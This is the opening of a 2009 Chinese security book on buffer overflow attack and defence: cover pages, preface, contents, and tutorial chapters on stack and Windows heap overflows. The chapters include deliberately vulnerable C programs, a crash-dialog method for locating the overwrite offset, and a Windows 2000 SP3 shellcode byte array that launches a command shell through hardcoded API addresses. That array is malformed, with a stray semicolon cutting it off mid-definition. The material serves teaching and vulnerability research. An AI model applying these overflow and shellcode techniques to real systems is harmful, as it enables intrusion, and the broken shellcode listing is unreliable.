# 黑客防线缓冲区溢出专辑

# 系统、全面、详尽的漏洞挖掘与 Exploit 编写教程

- 深入分析漏洞存在机理及触发机制  
- 完整呈现漏洞发掘过程  
- 详细解析 Exploit 的编写与核心 ShellCode 的调试过程  

## 黑客防线 2009

## 缓冲区溢出

## 攻击与防范专辑

《黑客防线》编辑部 编


光盘内含流行的 Serv-U、迅雷、卡巴斯基、Office 系列、IE 系列以及常见系统和第三方漏洞分析代码。

人民邮电出版社  
POSTS & TELECOM PRESS

## 黑客纵横 2009

## 缓冲区溢出

## 攻击与防范专辑

《黑客防线》编辑部 编


人民邮电出版社  
北京

### 图书在版编目（CIP）数据

黑客防线，2009. 缓冲区溢出攻击与防范专辑 / 《黑客防线》编辑部编. — 北京：人民邮电出版社，2009.6.  
ISBN 978-7-115-20424-0

I. 黑…  II. 黑…  III. 计算机网络—安全技术  IV. TP393.08

中国版本图书馆 CIP 数据核字（2009）第 056684 号

### 内容提要

本书由国内最早创刊的网络安全类媒体之一《黑客防线》编纂。全书秉承“在攻与防的对立统一中寻求突破”的核心理念，以 30 多个漏洞机理分析、触发机制、发掘过程、调试过程、Exploit 编写、核心 ShellCode 调试、实战构造为例，深入分析漏洞发掘的整个过程，详细解析 Exploit 的编写步骤。  

本书分为“初级篇”、“分析篇”、“ShellCode 篇”三篇，由浅入深地进行系统全面的缓冲区溢出攻击与防范的技术探讨，适合各层次的网络安全技术爱好者阅读。

**声明：本书所讲述的内容仅做学习之用，切勿用于非法用途。**

## 《黑客防线》2009 缓冲区溢出攻击与防范专辑

- 编：《黑客防线》编辑部
- 责任编辑：马雪伶
- 人民邮电出版社出版发行（北京市崇文区夕照寺街 14 号）
- 邮编：100061
- 电子邮件：315@ptpress.com.cn
- 网址：http://www.ptpress.com.cn
- 北京隆昌伟业印刷有限公司印刷
- 开本：787×1092  1/16
- 印张：13.75
- 字数：379 千字
- 印数：1—5000 册
- 2009 年 6 月第 1 版
- 2009 年 6 月北京第 1 次印刷

ISBN 978-7-115-20424-0/TP

定价：32.00 元（附光盘）

读者服务热线：(010)67132692  
印装质量热线：(010)67129223  
反盗版热线：(010)67171154  
广告经营许可证：京崇工商广字第 0021 号

### 前言

Exploit，缓冲区溢出漏洞是什么？它们有什么异同？

在网络安全技术飞速发展的今天，基于缓冲区溢出漏洞（以下简称漏洞）的研究已经越来越重要，无数网络安全爱好者开始关注网络安全技术的核心——漏洞发掘以及 Exploit 编写。

> “黑客通过某某漏洞攻破某某大型系统”、“某某企业系统漏洞导致上亿元的商业损失”……见诸报端的各种新闻似乎都在强调一个问题：“漏洞”是黑客恶意攻击的核心，是黑客入侵的最重要的“门户”！

对于真正喜欢网络安全技术，并愿意深入研究技术的朋友来说，各种非专业信息当然是不准确的，我们需要了解它们的本质意义。

Exploit 的英文本意是“利用”。“漏洞”是在硬件、软件、协议的具体实现或系统安全策略上存在的缺陷，从而可以使攻击者能够在未授权的情况下访问或破坏系统。

很多时候，许多网络安全专家都混淆了两者的概念——我们首先需要明确的是它们二者之间的关系：有漏洞不一定就有 Exploit（利用），而有 Exploit 就肯定存在漏洞！

漏洞分析有何意义？有何困难？

漏洞存在的本质原因是因为所有程序都是由人编写的，任何一种思维的惯性和不严谨性都可能造成致命漏洞的出现，而漏洞的存在意味着原以为安全的系统有了崩塌的可能。当今网络的快速发展改变了人们的生活和工作习惯，人们已经习惯了将重要资料存放在计算机里，网络上也存在越来越多的秘密信息，这也是黑客们搜索漏洞并进行攻击的主要原因。随着网络的发展，漏洞必将具有越来越大的危害性！

尽管网络安全技术防范人员和居心叵测的恶意攻击者，都知道漏洞的危害，然而真正拥有漏洞发掘和编写 Exploit 能力的人，却依然屈指可数，这涉及以下 5 个方面的核心问题。

- 1. 漏洞的根本存在机理是什么？
- 2. 漏洞的触发究竟需要什么条件？
- 3. Exploit 的编写规范有什么不能违背的原则？
- 4. 各种安全策略和安全审计的限制如何突破？
- 5. 如何构造 Exploit 的核心 ShellCode？

本书解决的问题、本书的特点、本书的结构：

常有网络安全爱好者抱怨发掘漏洞、构造 Exploit 是多么多么的困难，难以找到系统的、全面的、详尽而深入的漏洞发掘和 Exploit 编写教程，而想拥有一本代码经过严格测试，各种细节均由实战提炼得出，各种漏洞和相关 Exploit 都是完全可实际操作的书籍，却又是难上加难。编纂本书的目的就是为了解决这些问题。

从经典的 Serv-U 溢出，到迅雷、卡巴斯基漏洞存在机理分析，本书给出了 30 多个漏洞的触发机制、发掘过程，以及这些漏洞调试和 Exploit 编写的详尽技术精华，更有值得深入研究的每一个漏洞的核心 ShellCode 的调试过程、实战构造。

考虑到网络安全爱好者的技术层次参差不齐，本书分为“初级篇”、“分析篇”和“ShellCode 篇”，以详细分析过程附带完整源代码的方式，将每一步详细的分析过程呈现给读者，务求可操作性的完整体现，拥有本书的读者完全可以按照书中的内容自己完成相关漏洞的分析和 Exploit 的重塑！

本书所讲述的内容仅做学习之用，切勿用于非法用途。通过阅读本书，希望读者能够树立良好的网络安全意识，提高网络安全防御水平。

### 目录

## 初级篇

- 初探缓冲区溢出攻击 …… 1
- Windows 下堆溢出初步 …… 2
- Windows 堆栈溢出全面解析 …… 6
- 经典 WIN32 堆栈溢出保护+突破技术 …… 9
- 菜鸟版 Exploit 编写指南 …… 16
- 简单分析 Frame 漏洞 …… 20
- 免费才是我们的最爱——Real Server 远程溢出漏洞分析 …… 22
- lsasrv.dll 远程溢出 …… 26
- Serv-U FTP 漏洞旧饭重炒 …… 29
- Hacker + Cracker + Sniffer 的综合利用 …… 33
- 在 Windows 下对比学习 Linux 堆栈溢出 …… 36
- 采众家之长分析及改进 CMail 漏洞 …… 42
- 从 MS03-049 漏洞利用看调试系统进程 …… 45
- 我来写 ShellCode 生成器 …… 48
- Windows 整数溢出初步 …… 51
- 溢出漏洞扫描技术 …… 54
- 新手溢出 FTPD …… 57
- 初探堆栈溢出 …… 59

## 分析篇

- 堆栈溢出点定位原理分析 …… 62
- 巧妙分析 JPEG 处理漏洞 …… 65
- 从分析 MS06-040 谈 Metasploit 攻击代码提取 …… 68
- 分析和利用 W32Dasm 溢出漏洞 …… 72
- 玩转 Winamp 漏洞 …… 76
- RealPlayer 溢出分析+利用 …… 80
- Realplay.smil 文件溢出漏洞分析 …… 83
- PNP 溢出漏洞分析+利用 …… 85
- Word 溢出漏洞分析与利用 …… 88
- Excel 溢出漏洞分析+利用 …… 94
- 亲密接触 MS06-055 …… 97
- WinZip 溢出漏洞分析+利用 …… 99
- 迅雷 5 远程拒绝服务漏洞 0Day 分析 …… 101
- MS07-004 分析和利用 …… 103
- IPMsg 溢出的简单分析 …… 105
- WinRAR 7z 文件名溢出分析和利用 …… 107
- ShellCode 到洞悉溢出漏洞原理 …… 111
- Fuzzing in Word 溢出分析和利用 …… 113
- 重温 MDB File 文件漏洞 …… 115
- OllyDbg Format String 0Day 分析与利用 …… 118
- WinRAR 栈溢出分析和利用 …… 120
- 从卡巴漏洞管窥内核模式 ShellCode 的编写 …… 123
- Windows CE 缓冲区溢出利用技术 …… 127
- 隔山打牛之 RealPlayer 栈溢出 …… 134



## ShellCode 篇

- 定制特殊的 ShellCode …… 138
- 定制自己的 ShellCode 之二 …… 141
- ShellCode 编码变形大法 …… 144
- 编写变形的 ShellCode 实战篇 …… 146
- 打造 Windows 下自己的 ShellCode …… 149
- 让 ShellCode 突破系统版本限制 …… 153
- 《射雕》之突破 Windows 个人防火墙 …… 157
- 穿墙 ShellCode 的编写+应用 …… 161
- 突破溢出数据包长度限制——编写分段传送的 ShellCode（上） …… 165
- 突破溢出数据包长度限制——编写分段传送的 ShellCode（下） …… 167
- 突破防火墙的非管道 ShellCode …… 171
- ShellCode 自动化提取的设计与实现 …… 175
- 能够生成木马的 ShellCode …… 177
- 编写 Word 木马的 ShellCode …… 180
- 不死的 ShellCode …… 182
- 打造自己的 ShellCode 综合分析工具 …… 185
- 编写全数字字母的 ShellCode …… 188
- 再谈全字母数字的 ShellCode 的编写 …… 190
- The shorter, the better——精简你的数字字母 ShellCode …… 193
- 打造 200 字节的最短通用 ShellCode …… 198
- 编写 Unicode 有效的 ShellCode …… 202
- 编写绕过卡巴主动防御的 ShellCode …… 204
- SP2 下利用 TEB 执行 ShellCode …… 206
- 安全搜索进程内存空间 …… 208
- 再谈绕过卡巴斯基主动防御系统 …… 211

## 引言

### 初探缓冲区溢出攻击

缓冲区溢出攻击是一种非常有效而常见的攻击方法，在被发现的众多漏洞中，缓冲区溢出方面的漏洞占用了大部分。今天我们就缓冲区溢出基础方面做一些分析，以便和新手朋友们共同学习提高。

本文主要讲解两个内容：堆栈基础知识和缓冲区溢出基本原理，以后将和大家逐步深入地学习，希望大家都能掌握这个高级技术！

#### 堆栈的基础知识

堆栈是一种抽象数据结构，物理上就是一段连续分配的内存空间。当我们在一个程序中声明各种变量时，静态全局变量将位于数据段并且在程序开始运行的时候被加载，而程序的动态局部变量则分配在堆栈里面。

在堆栈的分配中，在地址上其从高往低分配空间（注意：这和内存从低往高分配的方式是截然相反的），并且遵循“后进先出”的原则。堆栈涉及压栈（push）和出栈（pop）两种操作，堆栈的栈顶位置由寄存器 ESP 指定。压栈时，ESP=ESP-4，同时在 ESP 处存放需要压入堆栈的数据；出栈时，ESP=ESP+4，原先的栈顶数据将不再属于堆栈范围之内，即相当于数据出栈了。

当程序在进行函数调用时，往往是先通过 push 指令压入参数，然后通过 call 指令来调用相关具体函数。譬如，在调用 MessageBoxA 函数的过程中，相关数据进入堆栈的顺序和具体数据如图 1 所示。



图 1

其压入堆栈的数据分别为 4 个参数、返回地址和 EBP。对于一般函数来说，如果函数有局部变量，接下来，就在堆栈中开辟相应的空间以构造变量。函数执行结束，这些局部变量的内容将被丢失但是不被清除。在函数返回的时候，弹出 EBP，恢复堆栈到函数调用的地址，弹出返回地址到 EIP 以继续执行程序。

#### 缓冲区溢出的基本原理初探

我们先用一个例子说明什么是缓冲区溢出。

```c
void function(char *str)
{
    char buffer[16];
    strcpy(buffer, str);
}

void main()
{
    char large_string[256];
    int i;
    for(i = 0; i < 255; i++)
        large_string[i] = 'A';
    function(large_string);
}
```

以上是个经典的溢出例子程序，strcpy 是一个经常引起缓冲区溢出的函数。从上面程序中我们可以看到，传递给 function 的字符串长度要远远大于 buffer 的大小，并且 function 没有经过任何长度校验而是直接用 strcpy 将长字符串拷入 buffer。如果执行该程序，系统一定会报告“Segmentation Violation”错误。下面我们来对程序运行过程作一分析，这样便于了解溢出的基本原理。

首先，我们看一下未执行 strcpy 时堆栈中的情况（从高地址往低地址排列）。



当执行 strcpy 时，程序将 256 字节的字符拷入到 buffer 中，但 buffer 仅能容纳 16 字节。buffer 处于低地址，而 ebp、返回地址均位于紧挨着 buffer 的高地址。由于 C 语言并不进行边界检查，所以结果是紧跟着 buffer 后面的 250 字节的内容也被覆盖掉了，这其中自然也包括 ebp 和返回地址。如上面例子中，ebp 和返回地址均变为 0x41414141h，这样，当 function 函数执行完毕之后，将会把返回地址弹出赋值给寄存器 EIP，并跳到该地址执行（即跳到 0x41414141h），但由于这个地址并不在程序实际使用的正常访问范围内，所以系统会报错“Segmentation Violation”。如果覆盖返回地址的数据不是 0x41414141h，而是可以正常执行的代码位置的话，那么程序就会跳到指定的目的地址继续执行，这样就改变了程序的执行流程。如果该代码位置是经过精心构造的后门程序，那么系统将会被控制。这里所说的代码实际上就是攻击者在编写溢出程序提交数据时一起提交的 ShellCode。关于 ShellCode 的编写，将是我们以后要讲到的问题。其实缓冲区溢出入门比较简单，深入以后才会有更多问题与技术等着我们去研究。



#### Windows 下堆溢出初步

文／图  王炜，WW0830

首先说说闲话，我认为最好的学习方法是类比（对比）。如果之前对新知识的相关背景有所了解，那学习起来会很快上手，而且很多思想和方法都可以借鉴以前的知识，所以前辈们一再强调基本功的重要性，比如算法、数据结构等，就是这个原因。所以，我们菜鸟们也用类比的方法来学习堆溢出吧！

#### 堆栈溢出利用原理

和什么知识对比好呢？如果是溢出，那当然是和 Windows 下的堆栈溢出作对比最好了。堆栈溢出和堆溢出只相差一个字，但内容可完全不同。在本书中，有很多介绍堆栈溢出的文章，特别是 F.Zh 的文章，简直是把 Windows 下堆栈溢出的教程提高到了一个前所未有的高度，那我们就参照 F.Zh 的堆栈溢出文章，来学习 Windows 下的堆溢出吧。

从 F.Zh 的文章中，我们可以总结出堆栈利用的 3 大步骤。

- 1. 返回点的定位。F.Zh 在他经典的《菜鸟版 Exploit 编写指南之一》中详细地讲述了利用报错对话框精确定位溢出返回点的方法。  
- 2. ShellCode 的编写。Shell 最先指人机交互的界面，而在这里 ShellCode 不仅仅指交互了，而是指可以实现任意功能的代码，网上有很多现成的 ShellCode，直接拿来使用就可以了。  
- 3. 跳转到 ShellCode。当然就是把返回点覆盖成 Jmp esp 的地址，或者是把异常处理点覆盖成 Call ebx 或 Pop pop ret 的地址了。  

从上面 3 点可以得出堆栈溢出利用的示意图，如图 1 所示。函数返回后，EIP 就指向 Jmp esp，而 ESP 指向 ShellCode。计算机不知道 EIP 被覆盖，继续往下执行……就是 EIP 指向的 Jmp esp 指令，那就会跳到……



Esp 指向的 ShellCode 中，从而达到执行任意功能代码的目的。

如果上述的几点还有什么不懂的地方，大家可以再翻翻 F.Zh 在《黑客防线》上的 Exploit 系列文章。下面从这 3 点来看看堆溢出的原理和利用。

首先看看一个很简单的有堆溢出问题的程序 Vul1.c。

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
char mybuf[] = "www0830";
int main (int argc, char *argv[])
{
    HANDLE hHeap;
    char *buf1, *buf2;
    // 我们自己建立一个HEAP
    hHeap = HeapCreate(HEAP_GENERATE_EXCEPTIONS, 0x10000, 0xfffff);
    printf("mybuf addr = %p\n", mybuf);
    // 动态分配buf1
    buf1 = HeapAlloc(hHeap, 0, 200);
    strcpy(buf1, mybuf);
    printf("buf1 = %s\n", buf1);
    // 动态分配buf2
    buf2 = HeapAlloc(hHeap, 0, 16);
    HeapFree(hHeap, 0, buf1);
    HeapFree(hHeap, 0, buf2);
    return 0;
}
```

稍微解释一下该程序。首先建立一个 HEAP，以免破坏进程默认 HEAP；然后动态分配 200 字节的 buf1，并把 mybuf 数组的内容复制给它；接着分配 buf2，最后把 buf1 和 buf2 释放掉后就退出了。为了便于演示定位，我们还把 mybuf 数组的地址打印了出来。

在 mybuf 数组很小的时候，程序没有任何问题，我们用 VC 按照 release 方式编译，并在命令行下运行，程序就会打印出 mybuf 地址和 buf1 内容，然后安全退出，如图 2 所示。


> 小提示：Debug 版的程序与实际运行程序的内存结构不同，需使用 Release 方式编译并在命令行下运行；可在“Select Active Configuration”中选择“Win32 RELEASE”。



然后我们稍微改变一下程序，只是加长 mybuf 的长度，变为 240 个 A，具体代码参看 Vul2.c。重新生成 Release 版的程序后，在命令行下运行它。看，出现报错对话框了，内容为“0x77fcb3f5 指令引用的 0x41414141 内存。该内存不能为 written”。0x41 就是大写字母 A 的十六进制码。呵呵，你是否联想起了堆栈的溢出呢？不过在这里 buf1 是动态分配的，所以是在堆中发生了溢出，如图 4 所示。



从刚才的测试中，我们看到了程序存在着溢出问题，接下来尝试利用它吧，方法就是堆栈溢出的标准 3 大步骤啦。

#### 溢出点的定位

采用 F.Zh 经典的对话框报错定位方法，可以很巧妙地得到溢出点的位置。如果有所遗忘的话，我们在这里复习一下。

首先改变程序，把 mybuf 数组填充的方法改变一下，改变的程序为 Vul3.c。我们把 mybuf 数组的填充方法替换为：

```c
for(i=0; i<240; i++)
{
    mybuf[i] = 100 + i % 10;
}
```

重新生成程序并在命令行下执行，这下报错框变成了“0x77fcb3f5”指令引用的“0x69686766”内存，该内存不能为 written。如图5所示。



我们记下这个数字，看来这次是“0x69686766”覆盖到了溢出点。我们再把 `mybuf[i] = 100 + i % 10` 的取余改为整除，得到程序 Vul4.c。

```c
for(i=0; i<240; i++)
{
    mybuf[i] = 100 + i / 10;
}
```

执行 Vul4，这次出现的错误框变成了“0x77fcb3f5”指令引用的“0x79797979”内存，该内存不能为 written。如图6所示。



我们分析一下这两个过程：第一次是把 `mybuf` 数组不断地加上 100～109，就是十六进制的 `0x64～0x6D` 循环；第二次则是以 10 为一段长度，每段分别以 `0x64`、`0x65`……来填充 `mybuf`。

第一次溢出时，报错值是 `0x66`，此时数组中只有 `0x64～0x6D` 不断循环，所以可以推出尾数是 `0x66-0x64=2`。

第二次溢出时，报错的全部是 `0x79`，而此时是从 `0x64` 开始每 10 个数为一段，`0x79-0x64=0x15`，即十进制 21，在字符串的第 21 个段，所以可以计算出出错点位置。

```c
(0x79 - 0x64) * 10 + (0x66 - 0x64) = 21 * 10 + 2 = 212
```

我们再验证一下，指定 `mybuf` 第 212 开始的 4 个字节是“BBBB”，其余全部为“A”。如果计算正确，那么应当是 `0x42`（B 的十六进制）覆盖到溢出点。

```c
for(i=0; i<240; i++)
{
    mybuf[i] = 'A';
}
mybuf[212] = 'B';
mybuf[213] = 'B';
mybuf[214] = 'B';
mybuf[215] = 'B';
```

执行该程序（Vul5.c），果然弹出的对话框变成了“0x77fcb3f5”指令引用的“0x42424242”内存，该内存不能为 written。证明了我们的计算是正确的，如图7所示。



我们分配的 `buf1` 是 200 个字节，溢出点却是第 212 个字节，看起来有点奇怪。不过不要紧，看了后面的分析之后就清楚了，我们还是先按步骤继续吧。

#### ShellCode 的编写

ShellCode 很重要，这里就不详细介绍了，外面有很多现成的 ShellCode，直接拿来使用就可以了，但堆溢出的 ShellCode 更有其特殊的要求。

- 如果溢出的是默认堆，则不能使用网络相关函数，比如开端口、反向连接等 ShellCode 都不能使用。
- 可以想办法在 ShellCode 中恢复默认堆，然后再使用网络相关 ShellCode，但有时恢复堆后仍不能使用网络编程函数。
- 新建一个堆，不用默认堆。
- 干脆不用网络相关 ShellCode，只添加用户一类功能。

在这里，因为只是为了说明方法，所以我们用了最简单的手段（WTF：真会偷懒啊），不仅溢出新建的堆，而且 ShellCode 也不用网络相关函数，只是完成了打开 DOS 窗口的功能。Windows 2000 SP3 下的代码如下：

```c
unsigned char shellcode[] =
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D"
"\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x43\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6"
"\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
"\x64\x9F\xE6\x77";
// SP3 LoadLibrary 地址 0x77e69f64
"\x52\x8D\x45\xF4\x50"
"\xFF\x55\xF0"
"\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\xCD\xD0\x89\x45\xF4\xBB\x61\x6E\x64\x2E"
"\x89\x45\xF8\xB8\x63\x6F\x00\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xE4"
"\x50\xB8"
"\xC3\xAF\x01\x78"
// SP3 system 地址 0x7801afc3
"\xFF\xD0";
```

